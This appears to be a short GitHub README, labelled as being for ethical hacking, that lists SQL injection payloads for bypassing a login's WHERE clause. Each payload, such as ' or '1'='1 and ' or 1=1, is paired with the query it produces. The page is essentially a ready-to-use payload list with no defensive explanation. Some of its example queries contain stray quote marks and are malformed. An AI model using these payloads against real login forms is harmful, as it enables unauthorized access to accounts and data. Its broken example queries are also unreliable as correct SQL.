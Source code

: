 # SQL INJECTION 
### PAYLOAD AND EXAMPLE QUERY

![https://img.shields.io/badge/ETHICAL%20HACKING-TRUE-red](https://img.shields.io/badge/ETHICAL%20HACKING-TRUE-red)

> ! Attention, This Repository For Ethical Hacking 

## Table of contents

1. [Bypass SQL Always True](#alwaystrue)
 
## 1. Bypass SQL Always True <a name="alwaystrue"></a>

Example of QUERY SQL starting from WHERE, please develop and analyze it yourself.

|PAYLOAD  | EXAMPLE QUERY |
|--|--|
| ```' or '1'='1``` |```WHERE username = '' or '1'='1' AND password = '' or '1'='1';```|
| ```' or username!=''``` |```WHERE username = '' or username!='' AND password = '' or password!='';```|
| ```' or FALSE!=TRUE``` |```WHERE username = '' or FALSE!=TRUE AND password = '' or FALSE!=TRUE;```|
| ```' or TRUE=TRUE``` |```WHERE username = '' or TRUE=TRUE AND password = '' or TRUE=TRUE";```|
| ```' or 1=1``` |```WHERE username = '' or 1=1 AND password = '' or 1=1" ;```|
